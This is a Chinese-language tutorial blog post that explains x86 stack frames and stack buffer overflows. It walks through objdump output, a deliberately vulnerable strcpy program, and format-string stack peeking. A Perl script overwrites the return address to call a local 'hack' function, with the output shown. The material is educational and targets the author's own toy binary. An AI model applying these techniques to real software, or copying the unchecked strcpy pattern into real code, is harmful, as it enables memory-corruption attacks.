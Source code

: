 ```yaml
---
layout: post
title: Buffer Overflow Attack
tags: [程序员自我修养, C/C++]
keywords:
description:
category: 程序员自我修养
comments: true
share: true
---
```


Buffer Overflow通常指的是程序在向一个Buffer写入数据的时候，超出了Buffer的边界，从而对超出Buffer范围的内存进行写入。Buffer Overflow，会导致程序的一些异常行为，而容易被利用，使得程序遭到攻击。Buffer Overflow分为Heap和Stack，我这里主要讲解Stack上的Buffer Overflow。

##Stack基本工作原理
在讲解Buffer Overflow Attack之前，我们需要复习系C语言Stack的工作方式和原理。

在堆栈的操作中，有三个非常重要的寄存器：

* ebp
ebp存放的是栈底的地址，ebp是一个静态寄存器。
* esp
esp存放的是栈顶的地址。ebp与esp之间的内存，即为Stack内存空间。ebp和esp确定一个Stack Frame栈帧。
* eip
eip是cpu下一步将要执行的地址。

我们通常说，在函数执行调用执行之前，需要保护现场，其中ebp，esp，eip是三个重要的保护对象。

我们还是用一个demo来阐述Stack的工作原理：
{% highlight C++ linenos %}
// stack.h
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void plus(int a, int b)
{
    int c = a + b;
    printf("the plus result = %d\n", c);
}

int main(int argc, char** argv)
{
    int a = 9;
    int b = 18;
    plus(a, b);

    return 0;
}
{% endhighlight %}
编译命令如下：
    gcc -g -m32 stack.c
使用objdump dump出来的main和plus函数的汇编代码如下：
{% highlight objdump linenos %}
080483e4 <plus>:
 80483e4:   55                      push   %ebp
 80483e5:   89 e5                   mov    %esp,%ebp
 80483e7:   83 ec 28                sub    $0x28,%esp
 80483ea:   8b 45 0c                mov    0xc(%ebp),%eax
 80483ed:   8b 55 08                mov    0x8(%ebp),%edx
 80483f0:   01 d0                   add    %edx,%eax
 80483f2:   89 45 f4                mov    %eax,-0xc(%ebp)
 80483f5:   b8 10 85 04 08          mov    $0x8048510,%eax
 80483fa:   8b 55 f4                mov    -0xc(%ebp),%edx
 80483fd:   89 54 24 04             mov    %edx,0x4(%esp)
 8048401:   89 04 24                mov    %eax,(%esp)
 8048404:   e8 f7 fe ff ff          call   8048300 <printf@plt>
 8048409:   c9                      leave
 804840a:   c3                      ret

0804840b <main>:
 804840b:   55                      push   %ebp
 804840c:   89 e5                   mov    %esp,%ebp
 804840e:   83 e4 f0                and    $0xfffffff0,%esp
 8048411:   83 ec 20                sub    $0x20,%esp
 8048414:   c7 44 24 18 09 00 00    movl   $0x9,0x18(%esp)
 804841b:   00
 804841c:   c7 44 24 1c 12 00 00    movl   $0x12,0x1c(%esp)
 8048423:   00
 8048424:   8b 44 24 1c             mov    0x1c(%esp),%eax
 8048428:   89 44 24 04             mov    %eax,0x4(%esp)
 804842c:   8b 44 24 18             mov    0x18(%esp),%eax
 8048430:   89 04 24                mov    %eax,(%esp)
 8048433:   e8 ac ff ff ff          call   80483e4 <plus>
 8048438:   b8 00 00 00 00          mov    $0x0,%eax
 804843d:   c9                      leave
 804843e:   c3                      ret
 804843f:   90                      nop
{% endhighlight %}
在main函数中，一开始的2条汇编语句：
{% highlight asm %}
push %ebp
mov %esp,%ebp
{% endhighlight %}
首先是保存调用main函数调用者的栈底ebp，由于main函数的调用者的栈顶esp同时也是main函数的栈底，所有mov %esp,%ebp。此时esp = ebp。

紧接着：
{% highlight asm %}
sub    $0x20,%esp
{% endhighlight %}
由于栈的生长方向是向低地址的方向生长,esp = esp - 0x20。此时，ebp和esp确定了main函数的栈，其大小是32个字节。

之后的几个movl和mov，分别是给局部变量a，b分配空间和把要传递给plus的参数压栈。
在跳转到plus函数之前我们得到的main函数的栈内存情况如下：

<center>
![Alt Text](/images/mainStack.svg)
</center>
从上图中，你会发现，在跳转到plus函数之前，main函数的栈中多了一个eip。那么eip是在什么时候被压栈的呢？
其实是call操作的结果, call语句等价于下面的2句话：
{% highlight asm %}
push %eip
jump 80483e4 <plus>
{% endhighlight %}
push %eip是为了保存在plus函数执行完之后，要之下main函数的下一条语句的地址。

在进入plus函数之后，到plus leave之前，我们得到的栈内存情况如下图：
<center>
![Alt Text](/images/plusStack.svg)
</center>


上面讲到的是函数调用，栈的生长情况，在函数执行结束返回的以后，栈的操作恰好跟之前的操作相反。
在plus函数直接结束后，即将返回到main函数，使用了leave和ret。
一条leave语句相当于：
{% highlight asm %}
move %ebp,%esp
pop %ebp
{% endhighlight %}
让esp=ebp，相当于将plus的局部变量清楚，最后从栈中pop一个值存放到ebp中。这个值就是进入plus之后的第一条语句push的那个main函数的ebp。
那么，plus返回了，怎么才能知道下一条要执行什么语句呢？ret则做了最后的恢复工作，ret相当于：
{% highlight asm %}
pop %eip
{% endhighlight %}
eip被重新pop出来，恢复到进入plus函数之前的现场。


##Buffer Overflow

上面讲解了Stack的基本工作原理，我们再来看看，Linux下内存分布情况：
<center>
![Alt Text](/images/memory-layout.svg)
</center>
stack和heap的内存生长方向如图所示。在编译器不做保护的情况下，理论上，我们是可以操作stack和heap上的任何内存的。

{% highlight C++ linenos %}
// stack.c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void copyCmds(char* str)
{
    char buff[6];
    printf("\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n\n");
    strcpy(buff, str);
    printf("\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n\n");
}

void hack()
{
    printf("Hi, I am hacking\n");
}

int main(int argc, char** argv)
{
    if (argc != 2)
      return 0;
    printf("copyCmds = %08x\n hack = %08x\n", copyCmds, hack);
    copyCmds(argv[1]);

    return 0;
}
{% endhighlight %}

这段代码，一眼就看出来漏洞在于直接使用了strcpy而没有对长度进行限制。我这里仅仅只是拿来演示，如何通过stack overflow来让hack函数被调用。

我们可以看到，main函数调用了copycmds，根据之前我们对函数调用的分析，在main函数调用copyCmds之前，会将copyCmds返回之后要执行的地址存在eip中，然后push eip。当copyCmds返回之后，直接pop stack放到eip中，继续执行。如果我们可以改变这个push到stack上的eip的值，那么我们既可以控制copyCmds函数返回之后的行为，即下一条要执行的语句。

###窥探stack内容
在C/C++中，由于printf实现的原因，在printf内部，会从printf的stack上按顺序取出printf的参数进行解析。

    printf("\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n\n");
在copyCmds中，这句话就是用来查看stack上的数据。由于只给printf传递了格式化字符串，printf从stack上取出地址，然后按照格式化字符串中的格式进行解析。

另外，我们还可以使用printf查看指定地址的内存单元的内容：
    printf("\x87\x06\x34\x76 %08x %08x %08x %08x %08x");
可以用来查看0x76340687处的内存。在c语言中，字符串中使用\x的时候，编译器会将其替换成hex，然后存放在内存中。 %08x使得printf从stack的顶端开始移动，由于printf的格式化字符串也是存放在stack上的，如果我们通过%08x移动到存放格式化字符串的地方，就可以打印0x76340687处的内存了。我这里只是假设要到达格式化字符串的存储位置需要4个%08x, 也就是4个字节，最后一个%08x是用来解释0x76340687处的内容的。

###触发stack overflow
上面的代码编译命令如下：

    gcc -g -m32 -fno-stack-protector stack.c
-fno-stack-protector是为了disable编译器对stack溢出的保护。
我们现执行一遍，查看hack函数的地址：

    ./a.out hello
我的输出如下：

    copyCmds = 08048444
    hack = 08048478

由于c语言命令行字符串转换原因，我们没办法直接在命令行向可执行文件传递hex参数。这里，我借助了perl脚本：
{% highlight pl linenos %}
$arg = "aaaaaaaaaaaaaaaaaa"."\x78\x84\x04\x08";
$cmd = "./a.out ".$arg;

system($cmd);

{% endhighlight %}

    perl hack.pl
执行结果如下：

    copyCmds = 08048444
    hack = 08048478
    00000000
    ffe0e1a8
    f75feeff
    f7758a20
    08048628
    ffe0e198
    f75feed0
    08048628
    f7789918
    ffe0e1a8
    080484cf
    ffe0e443
    08048444
    08048478
    f7757ff4
    080484e0
    00000000
    00000000
    f75cb4d3
    00000002
    ffe0e443
    ffe0e1a8
    f75feeff
    f7758a20
    08048628
    6161e198
    61616161
    61616161
    61616161
    61616161
    08048478
    ffe0e400
    08048444
    08048478
    f7757ff4
    080484e0
    00000000
    00000000
    f75cb4d3
    00000002
    Hi, I am hacking

其中，perl脚本中字符串a的数量是我试了多次才hack成功。不同的机器上，可能需要overflow的个数不同。


